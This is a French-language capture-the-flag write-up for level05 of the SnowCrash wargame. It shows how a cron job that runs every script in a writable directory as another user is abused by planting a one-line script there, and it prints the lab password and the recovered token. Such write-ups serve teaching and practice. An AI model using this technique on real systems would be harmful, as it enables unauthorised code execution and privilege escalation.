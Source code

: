 # Level05

Une fois connecté avec le username:motdepasse level05:ne2searoevaevoem4ov4ar8ap (obtenu dans le flag précédent), nous arrivons sur le home de l'utilisateur level05.  
```sh
➜  ~ ssh level05@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15
level05@localhost's password:
You have new mail.
```
Nous somme averti qu'un mail nous attends !
Allons voir ce mail  :
```sh
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
Ce mail nois informe qu'une tache cron est planifié, cette tache execute le script /usr/sbin/openarenaserver toutes les 2 minutes avec le compte flag05.  
Allons voir le script /usr/sbin/openarenaserver :  
```sh
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
Ce script execute tous les fichiers présents dans /opt/openarenaserver/ avec bash et les supprime ensuite.  
Nous allons utiliser cette faille a notre avantage. Nous allons créer un script dans /opt/openarenaserver qui execute la commande getflag et en enregistrer le retour dans un fichier /tmp/flag.  
```
echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag
```
Deux minutes plus tard, il nous reste plus qu'a regarder le fichier `/tmp/flag`
```sh
level05@SnowCrash:/$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

||<h3 align="center"> Documentation </h3>|
|:--------:|:---------:|
|cron|http://manpagesfr.free.fr/man/man5/crontab.5.html|

